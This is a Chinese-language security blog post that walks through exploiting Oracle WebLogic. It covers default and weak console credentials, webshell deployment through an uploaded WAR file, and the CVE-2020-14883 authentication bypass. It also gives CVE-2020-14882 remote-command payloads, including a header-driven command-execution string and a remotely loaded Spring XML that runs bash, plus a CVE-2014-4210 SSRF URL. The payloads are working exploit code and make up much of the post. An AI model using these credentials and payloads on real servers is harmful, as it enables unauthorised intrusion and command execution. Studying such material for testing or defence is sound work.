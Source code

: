 # WebLogic 弱口令&amp;文件上传&amp;SSRF

  
  
&lt;!--more--&gt;  
## 0x01 前言  
将 WebLogic 一些其他漏洞全部放在这篇文章里面了，一共是以四个下漏洞  
- CVE-2014-4210 SSRF  
- CVE-2018-2894 任意文件上传  
- CVE-2020-14882/CVE-2020-14883 未授权 RCE  
- 弱口令 getshell  
## 0x02 环境搭建  
https://www.penson.top/article/av40  
## 0x03 弱口令getshell  
访问 WebLogic `/console` 接口，可能存在的弱口令如下  
  
| username    | password    |  
| ----------- | ----------- |  
| system      | password    |  
| weblogic    | weblogic    |  
| guest       | guest       |  
| portaladmin | portaladmin |  
| admin       | security    |  
| joe         | password    |  
| mary        | password    |  
| system      | security    |  
| wlcsystem   | wlcsystem   |  
| wlcsystem   | sipisystem  |  
常见的弱密码  
```txt  
weblogic1    
weblogic12    
weblogic123    
weblogic@123    
webl0gic    
weblogic#    
weblogic@  
```  
### 漏洞复现  
先使用弱口令登陆，点击部署下的安装  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409051459614.png)
选择上传文件  
上传恶意的 war 包，这个恶意 war 包是由哥斯拉生成，压缩为 zip 之后，将后缀名改为 .war 的  
继续默认点击位于上方的下一步，直至遇到并点击完成  
接着启动之前部署的war包  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409051505632.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409051506215.png)
## 0x04 CVE-2020-14882/CVE-2020-14883 未授权 RCE  
### 影响版本  
Oracle WebLogic Server 10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0 and 14.1.1.0.0  
### 漏洞原理  
CVE-2020-14883：允许未授权的用户通过目录穿越结合双重URL编码的方式来绕过管理控制台的权限验证访问后台  
CVE-2020-14882：允许后台任意用户通过HTTP协议执行任意命令  
### 漏洞复现  
主要是以下两个CVE的结合利用，显示未授权访问后台，然后通过后台可以执行命令的接口实现RCE  
#### CVE-2020-14883  
正常情况下，没有登陆Weblogic的话访问`console`后台就会直接302跳转到`/console/login/LoginForm.jsp`登陆界面。  
但是，通过目录穿越结双重URL编码就能绕过认证实现未授权访问`console`后台  
对应的`payload`为  
`/console/css/%252e%252e%252fconsole.portal`  
#### CVE-2020-14883  
前面的CVE虽然可以访问后台，但是低权限用户、无法安装应用，此处我们需要借助CVE-2020-14883这个漏洞的利用方式有两种，一种是通过`com.tangosol.coherence.mvel2.sh.ShellSession`，一种是通过`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`  
##### 方式一  
`com.tangosol.coherence.mvel2.sh.ShellSession`  
但此利用方法只能在`Weblogic 12.2.1`及以上版本利用，因为`10.3.6`并不存在`com.tangosol.coherence.mvel2.sh.ShellSession`类，  
直接访问如下URL即可  
`http://ip:7001/console/console.portal?_nfpb=true&amp;_pageLabel=&amp;handle=com.tangosol.coherence.mvel2.sh.ShellSession(&#34;java.lang.Runtime.getRuntime().exec(&#39;curl dnslog&#39;);&#34;)`  
有回显的payload  
```http
/console/css/%252e%252e%252fconsole.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]\{\%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]\{\%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20)\{\%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt();
```  
执行的命令添加在http头部的cmd字段  
##### 方式二  
`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`  
这是一种更为通杀的方法，最早在CVE-2019-2725被提出，对于所有Weblogic版本均有效  
首先，需要构造一个XML文件，并将其保存在Weblogic可以访问到的服务器上。  
```xml  
&lt;?xml version=&#34;1.0&#34; encoding=&#34;UTF-8&#34; ?&gt;  
&lt;beans xmlns=&#34;http://www.springframework.org/schema/beans&#34;  
   xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34;  
   xsi:schemaLocation=&#34;http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd&#34;&gt;  
    &lt;bean id=&#34;pb&#34; class=&#34;java.lang.ProcessBuilder&#34; init-method=&#34;start&#34;&gt;  
        &lt;constructor-arg&gt;  
          &lt;list&gt;  
            &lt;value&gt;bash&lt;/value&gt;  
            &lt;value&gt;-c&lt;/value&gt;  
            &lt;value&gt;&lt;![CDATA[ping dnslog]]&gt;&lt;/value&gt;  
          &lt;/list&gt;  
        &lt;/constructor-arg&gt;  
    &lt;/bean&gt;  
&lt;/beans&gt;  
```  
通过如下URL，即可让weblogic加载这个XML，并执行其中的命令  
`/console/css/%252e%252e%252fconsole.portal?_nfpb=true&amp;_pageLabel=&amp;handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext(&#34;http://example.com/rce.xml&#34;)`  
## 0x05 CVE-2014-4210 SSRF  
### 影响版本  
- Oracle WebLogic Server 10.0.2, 10.3.6  
### 漏洞原理  
Weblogic的`SearchPublicReqistries.jsp`接口存在`SSRF`漏洞，如果服务端或内网存在`Redis`未授权访问漏洞则可以进一步利用  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409060006648.png)
### 漏洞利用  
SSRF漏洞存在于`/uddiexplorer/SearchPublicRegistries.jsp`，漏洞URL  
`/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&amp;txtSearchname=sdf&amp;txtSearchkey=&amp;txtSearchfor=&amp;selfor=Business&#43;location&amp;btnSubmit=Search&amp;operator=http://127.0.0.1:7001`  
### 0x06 CVE-2018-2894  
### 影响版本  
10.3.6，12.1.3，12.2.1.2，12.2.1.3  
### 漏洞原理  
weblogic如果开启了web服务测试页，则分别会在`/ws_utc/begin.do`以及`/ws_utc/config.do`这两个页面存在任意上传getshell漏洞  
默认不开启，所以此漏洞有一定的局限性  
### 漏洞复现  
登录上 console，点 `base_domain`，在 “配置” -&gt; “一般信息” -&gt; “高级” 中开启 “启用 Web 服务测试页” 选项  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/weblogic-%E5%BC%B1%E5%8F%A3%E4%BB%A4%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0ssrf/  


